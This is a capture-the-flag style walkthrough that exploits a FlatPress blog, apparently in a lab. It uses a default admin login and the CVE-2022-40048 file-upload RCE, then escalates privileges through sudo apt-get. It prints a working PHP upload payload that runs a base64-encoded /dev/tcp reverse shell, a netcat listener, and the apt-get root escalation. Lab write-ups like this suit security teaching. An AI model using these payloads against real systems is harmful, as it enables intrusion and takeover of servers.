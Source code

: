 ____

# Enumeration

## Nmap

Initial step. Starting with an Nmap scan. We have 1 open port.

```
nmap -Pn --open 172.17.46.2
```


Open the address: http://[ip:port](ip:port) ( http://0.0.0.0:8089 )

We are presented with "**FlatPress**" weclome page.

## Flatpress

> is a lightweight, easy-to-set-up blogging engine.

# Exploitation

## Remote Code Execution

We find **"[CVE-2022-40048](https://nvd.nist.gov/vuln/detail/CVE-2022-40048)"** recorded for **Flatpress**.

The exploitation steps can be found here: https://github.com/flatpressblog/flatpress/issues/152

**Reference**: https://nvd.nist.gov/vuln/detail/CVE-2022-40048

#### Description: CVE-2022-40048

Flatpress v1.2.1 was discovered to contain a remote code execution (RCE) vulnerability in the Upload File function.

## POC

1. Open url : http://[ip:port](ip:port) ( http://0.0.0.0:8089 )
    
2. Click on login or go to this link: http://0.0.0.0:8089/login.php
    
3. Login with common default credential
    
    ```bash
    admin : password
    ```
    
4. We are logged in as administrator
    
5. Now click on "**uploader**"
    
6. Create a php file (ex: **exploit.php**) containing below contents
    
    ```php
     GIF89a;
    <?php
      system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjc1LzgwODEgMD4mMQo= | base64 -d | bash");
    ?>
    ```
    
    The base64 encoded form contains the reverse shell payload.
    
    ```bash
    echo "sh -i >& /dev/tcp/192.168.1.75/8081 0>&1" | base64 -w 0
    ```
    
7. Now listen netcat on your local machine
    
    ```bash
    rlwrap nc -lvnp 8081
    ```
    
8. Upload the epxloit file
    
9. Now click on "**Media Manager**"
    
10. Then click on the file "**exploit.php**"
    
11. We got reverse shell
    
12. checking sudo privileges
    

```r
$ sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/apt-get
```

13. Abuse sudo perms using

```r
$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```